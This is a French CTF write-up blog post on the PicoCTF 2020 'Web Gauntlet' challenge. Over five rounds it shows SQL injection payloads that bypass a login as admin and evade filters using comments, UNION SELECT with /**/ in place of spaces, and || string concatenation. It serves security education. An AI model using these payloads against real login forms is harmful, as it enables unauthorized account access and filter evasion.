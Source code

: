 ```yaml
---
layout: post
title: PicoCTF 2020 - Bypass de filtres SQL
subtitle: PicoCTF - Web Gauntlet - Web exploitation - SQLi 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [CTF, PicoCTF, Web Gauntlet, Bypass, SQL filters, SQLi, Write-Up]
comments: false
---
```


![Logo](/img/PicoCTF_logo.png){: .center-block :}

Web Gauntlet est un chall d'exploitation web proposé lors de la version 2020 de PicoCTF. Il s'agit d'un challenge plutôt classique où le but est de se loguer en tant qu'admin à l'aide d'injections SQL. Jusque là rien de bien nouveau... L'originalité de Web Gauntlet est toutefois qu'il faudra bypasser des filtres qui sont ajoutés à chaque niveau du chall pour complexifier les SQLi. 

![Description](/img/PicoCTF_1.png){: .center-block :}

![Sign In](/img/PicoCTF_2.png){: .center-block :}

Test avec `admin::admin`

![Test](/img/PicoCTF_3.png){: .center-block :}

`SELECT * FROM users WHERE username='admin' AND password='admin'`

Ref: [PayloadsAllTheThings - SQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Round 1

![Round1](/img/PicoCTF_4.png){: .center-block :}

Pour le ‘Round 1’ on ne peut pas utiliser ‘or’...

**Payload:** 

Username: `admin';-- test` 
Password: `test`

`SELECT * FROM users WHERE username='admin';-- test' AND password='test'`

{: .box-note}
; : ferme la requête
-- : ce qui est après est un commentaire

{: .box-warning}
Remarque: Pas d'espace avant l'appel au commentaire sinon bloque car considéré comme white space voir plus bas round 4

![Round1](/img/PicoCTF_5.png){: .center-block :}

## Round 2

![Round2](/img/PicoCTF_6.png){: .center-block :}

**Payload:** 

Username: `admin';` 
Password: `test`

`SELECT * FROM users WHERE username='admin';' AND password='test'`

![Round2](/img/PicoCTF_7.png){: .center-block :}

## Round 3

![Round3](/img/PicoCTF_8.png){: .center-block :}

Ça change rien, on utilise aucun de ces symboles :)

**Payload:**

Username: `admin';`
Password: `test`

`SELECT * FROM users WHERE username='admin';' AND password='test'`

![Round3](/img/PicoCTF_9.png){: .center-block :}

## Round 4

![Round4](/img/PicoCTF_10.png){: .center-block :}

On ne peut plus utiliser `admin`...

En général le premier utilisateur dans la table est admin

~~~
1 admin password
2 user1 password1
...
~~~

**Payload:**

Username: `bob' UNION SELECT * FROM users LIMIT 1;`
Password: `test`

`SELECT * FROM users WHERE username='bob' UNION SELECT * FROM users LIMIT 1;' AND password='test'`

{: .box-note}
LIMIT 1 limite au premier résultat

Ne fonctionne pas car contient des whitespace :(

on peut utiliser `/**/` à la place des espaces ce qui donne le payload suivant

**Paylod:**

`bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;`   

Ref: 
- [SQL injection bypassing common filters - Portswigger](https://portswigger.net/support/sql-injection-bypassing-common-filters)
- [SQL Injection Bypassing WAF - OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

`SELECT * FROM users WHERE username='bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;' AND password='bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;'`     

![Round4](/img/PicoCTF_11.png){: .center-block :}

## Round 5

![Round5](/img/PicoCTF_12.png){: .center-block :}

'The double-pipe sequence || is a string concatenation operator on Oracle.'

Ref: [SQL injection - Union attacks - Portswigger](https://portswigger.net/web-security/sql-injection/union-attacks)

**Payload:** `adm'||'in';`

![Round5](/img/PicoCTF_13.png){: .center-block :}

**Poursuivez avec :** 

[- VulnHub - BossPlayersCTF](https://0xss0rz.github.io/2020-11-16-Vulnhub-BossPLayersCTF/)

[- Hack The Box - Cache](https://0xss0rz.github.io/2020-11-18-HTB-Cache/)

[- PicoCTF 2018 - Web Application](https://0xss0rz.github.io/2019-08-24-picoCTF-Web-Application-Write-Ups/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
